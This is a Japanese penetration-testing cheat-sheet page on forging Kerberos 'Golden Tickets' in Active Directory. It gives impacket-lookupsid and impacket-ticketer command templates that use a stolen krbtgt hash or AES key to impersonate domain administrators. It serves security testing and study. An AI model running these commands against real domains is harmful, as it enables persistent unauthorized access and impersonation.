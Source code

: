 # Golden Tickets攻撃

`Golden Ticket` とは、Active Directory認証において攻撃者が作成したTGT(Ticket Granting Ticket)を指す。攻撃者は有効期限が長いTGTを作成し正規のドメイン管理者に長期的になりすますことを目的としている。Golden Ticketを悪用する攻撃は [Pass-the-Ticket攻撃](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Movement/Kerberos/Pass%20The%20Ticket.md)の一種。

## 攻撃に必要なもの

ゴールデンチケットを作成するために、テスターは`krbtgt` のRC4キー（NTハッシュ）またはAESキー（128ビットまたは256ビット）を見つける必要がある。ほとんどの場合、これはDCSync攻撃を通してドメイン管理者権限でのみ達成可能。このため、ゴールデンチケットは横方向の移動のみを可能にし、特権の昇格はできない。

- krbtgtのRC4 key(NTLM hash) or AES key

- DOMAINのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

## チケットの取得

### Linux

with an NT hash

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

with an AES (128 or 256 bits) key

```
# AES 128/256bits key
impacket-ticketer -aesKey <Krbtgt_Aeskey> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

カスタムユーザー/グループIDでゴールデンチケットRC4キー(NTLMハッシュ)を作成する

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> -user-id <USER_RID> -groups "<Groupid1>,<Groupid2>,..." stegosaurus
```

